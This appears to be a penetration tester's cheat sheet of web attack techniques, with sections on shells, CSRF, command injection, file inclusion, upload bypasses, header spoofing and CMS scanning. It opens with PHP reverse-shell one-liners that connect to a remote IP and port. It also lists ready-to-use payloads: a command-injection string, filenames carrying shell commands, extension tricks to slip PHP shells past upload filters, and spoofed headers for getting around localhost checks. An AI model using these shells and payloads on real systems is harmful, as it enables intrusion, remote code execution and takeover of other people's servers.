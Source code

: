 # WEB

Shells
------

* Reverse shell one-liners:
```
<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>
```

* [Weevely](https://github.com/epinna/weevely3/) - great command line web shell with good features


XSRF (Cross-site Request Forgery)
---------------------------------

* [CSurfer](https://github.com/asaafan/CSurfer/) - CSRF guard hiding extension for Burp
* [CSRF-Request-Builder](https://github.com/TheRook/CSRF-Request-Builder/) - tool for testing CSRF against web services


Command Injection
-----------------

* Try to use pipe, ampersands, double ampersands, colon: `1 | uname -a & users & id`


File Inclusion
--------------------

Local: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  
Remote: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`

* [PHP File Inclusion Overview](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/)  
* [Uniscan](https://sourceforge.net/projects/uniscan/) - simple RFI, LFI and RCE vulnerability scanner  

File Upload
-----------

* Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

```
shell.jpg.php (satisfies as check for jpg only)
shell.jpg.PhP (obfuscation)
shell.php;.jpg (sometimes can ignore whats after ";")
shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)
shell.php.test (defaults to first recognised extension ignoring "test")
shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)
.phtml (a commonly used php parsed extension often forgotten about!)
.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
```

* [evilarc](https://github.com/ptoomey3/evilarc) - creates zip files with dir traversal characters in their embedded path

* Uploading `.htaccess` and remapping filetypes
* Shellcode in filename:
```
.png; ls -la;
; whoami; .png
```

PHP-Specific
------------

* [IonCube V8.2 + PHP Auto - Fixer Decoder](http://phpdecode.blogspot.co.at/)


XXE (XML External Entity Injection)
-----------------------------------

* [Preventing XXE in PHP](https://websec.io/2012/08/27/Preventing-XEE-in-PHP.html)

SSL
---

* [SSL Checklist for Pentesters - the Manual Cheatsheet](http://www.exploresecurity.com/wp-content/uploads/custom/SSL_manual_cheatsheet.html)


IP Spoofing
-----------

Accept: */*
x-forwarded-for: 127.0.0.1  
x-remote-IP: 127.0.0.1  
x-originating-IP: 127.0.01  
x-remote-addr: 127.0.0.1  
x-remote-ip: 127.0.0.1  
x-forwarded-for 127.0.0.1  

Sometimes referer needs to be deleted in the request.

Nikto
-----

Simple scan:

```
perl nikto.pl -host http://www.example.com
```

Browser-Related
---------------

* [Chrome "No Web Security"](https://bugs.chromium.org/p/chromium/issues/detail?id=575690) - Chrome can be started with less web security mode using flag "--disable-web-security"  
* Pentesting plugins: [Firebug](http://getfirebug.com/), [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/), [FoxyProxy](https://getfoxyproxy.org/), [Tamper Data](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/), [FileStorage Plus!](https://addons.mozilla.org/de/firefox/addon/firestorage-plus/), [NoScript Security Suite](https://addons.mozilla.org/en-US/firefox/addon/noscript/), [HackBar](https://addons.mozilla.org/en-US/firefox/addon/hackbar/)  


CMS-Specifgic
=============

Drupal
------

* [Attacking Drupal](http://www.slideshare.net/heinzarelli/attacking-drupal)
* [DPScan](http://www.ehacking.net/2012/02/dpscan-drupal-security-scanner-tutorial.html)
* [Drupal by Mad Irish](http://www.madirish.net/tag/drupal) - good resource on Drupal vulns
* Find out which version: `domain.com/changelog.txt`

Liferay
-------

* [LiferayScan](https://github.com/bcoles/LiferayScan) - simple remote scanner for Liferay Portal
* [Hacking Liferay CMS](http://realpentesting.blogspot.co.at/2013/01/hacking-liferay-cms.html) - version 6.06
* [Liferay Portal Security Research](http://www.procheckup.com/media/194945/liferay.pdf) - version 6.05
